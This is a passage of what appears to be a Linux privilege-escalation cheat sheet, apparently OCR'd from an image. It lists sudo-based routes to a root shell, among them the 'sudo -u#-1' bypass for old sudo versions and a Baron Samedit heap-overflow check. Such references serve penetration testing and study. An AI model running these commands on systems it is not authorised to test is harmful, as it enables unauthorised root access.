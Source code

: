     # Environments
    env
    echo $PATH

    # Positional arguments
    echo $0
    echo $1
    echo $2
    ```

3. **Sudo Bypass**

    1. **Check Properties**

        ```sh
        sudo -l
        sudo -ll

        # Specify hostname
        sudo -h <host-name> -l
        # Execute via the hostname
        sudo -h <host-name> /bin/bash
        ```

    2. **No Reasons Why You Don't**

        If you can execute 'su' command as root privilege, you can switch to root.

        ```sh
        sudo su root

        # Other user
        sudo -u john whoami
        ```

    3. **Sudo Version <= 1.28**

        ```sh
        sudo -u#-1 /bin/bash
        ```

    4. **Sudo Buffer Overflow**

        1. **Baron Samedit (Heap Buffer Overflow)**

            1. **Check Vulnerability to Overwrite Heap Buffer in Target Machine**

                ```sh
                sudoedit -s '\' $(python3 -c 'print("A"*1000)')
                ```
